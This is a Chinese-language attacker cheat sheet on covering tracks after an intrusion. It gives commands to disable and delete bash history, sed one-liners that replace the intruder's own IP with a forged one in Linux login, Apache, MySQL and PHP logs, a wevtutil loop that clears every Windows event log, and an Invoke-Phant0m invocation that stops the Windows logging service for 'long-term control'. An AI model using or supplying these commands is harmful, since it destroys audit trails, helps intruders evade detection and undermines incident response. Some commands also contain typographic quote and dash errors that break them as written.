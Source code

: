 ```yaml
---
title: 日志处理
---
```

# Linux日志处理

## Bash日志处理

**bash去掉history记录，让系统不记录history**

```bash
export HISTSIZE=0
export HISTFILE=/dev/null
```

history命令的清除，也是对~/.bash_history进行定向清除

```bash
rm -rf ~/.bash_history
history -c
```

## 系统日志

直接将日志清除过于明显，一般使用sed进行定向清除或伪造

| 日志文件           | 说明                                                         |
| :----------------- | :----------------------------------------------------------- |
| `/var/log/btmp`    | 记录**错误登录（登陆失败）**日志；使用**lastb**命令查看      |
| `/var/log/lastlog` | 记录系统中所有用户最后一次成功登录时间，使用**lastlog**命令查看 |
| `/var/log/wtmp`    | 永久记录所有用户的登录、注销信息，同时记录系统的启动、重启、关机事件；用**last**命令来查看 |
| `/var/log/utmp`    | 只记录**当前登录用户**的信息；使用**w,who,users**等命令来查询 |
| `/var/log/secure`  | 记录验证和授权方面的信息，如SSH登录，su切换用户，sudo授权，甚至添加用户和修改用户密码（Centos） |

```bash
#其中192.168.1.3是我们的IP，8.8.8.8是我们伪造的IP，-i直接编辑文件，必须在后边
sed 's/192.168.1.3/8.8.8.8/g' -i /var/log/btmp*
sed 's/192.168.1.3/8.8.8.8/g' -i /var/log/lastlog
sed 's/192.168.1.3/8.8.8.8/g' -i /var/log/wtmp

sed 's/192.168.1.3/8.8.8.8/g' -i secure
sed 's/192.168.1.3/8.8.8.8/g' -i /var/log/utmp
```

## Web日志处理

如apache的access.log,error.log。

```bash
sed ‘s/192.168.1.3/8.8.8.8/g’ –i /var/log/apache/access.log
sed ‘s/192.168.1.3/8.8.8.8/g’ –i /var/log/apache/error_log
#其中192.168.1.3是我们的IP，8.8.8.8是我们伪造的IP
```

## MySQL日志文件

```bash
log-error=/var/log/mysql/mysql_error.log		#错误日志
log-slow-queries=/var/log/mysql/mysql_slow.log	#慢查询日志
```

```bash
sed 's/192.168.1.3/8.8.8.8/g' –i /var/log/mysql/mysql_error.log
sed 's/192.168.1.3/8.8.8.8/g' –i /var/log/mysql/mysql_slow.log
```

## php日志处理

```bash
sed 's/192.168.1.3/192.168.1.4/g' –i /var/log/apache/php_error.log 
```

# Windows日志处理

**对于Windows事件日志分析，不同的EVENT ID代表了不同的意义**

| 事件ID | 说明                                             |
| :----- | :----------------------------------------------- |
| 4648   | 登录成功，会记录登录来源IP                       |
| 4625   | 登录失败，会记录登录来源IP                       |
| 4672   | 使用超级用户（如管理员）进行特殊登录，不会记录IP |
| 4720   | 创建用户                                         |
| 4733   | 从用户组删除用户                                 |
| 4779   | 注销事件，会记录登录来源IP                       |

## 一、wevtutil+for循环清除所有日志

```cmd
for /F "tokens=*" %a in ('wevtutil.exe el') DO wevtutil.exe cl "%a"
```

## 二、 ps批量删日志 

```cmd
PS C:\> wevtutil el | Foreach-Object {Write-Host "Clearing $_"; wevtutil cl "$_"}
```

## 三、运行ps脚本

```bash
powershell –exec bypass –Command "& {Import-Module 'C:\Invoke-Phant0m.ps1';Invoke-Phant0m}"
#win日志服务此时就会停止工作了
#长期控制，记得验证
```

> 不过这种方法太过暴力，而且停止日志记录这个方法停止后无法恢复
>
> 稳妥点还是手动删除登录事件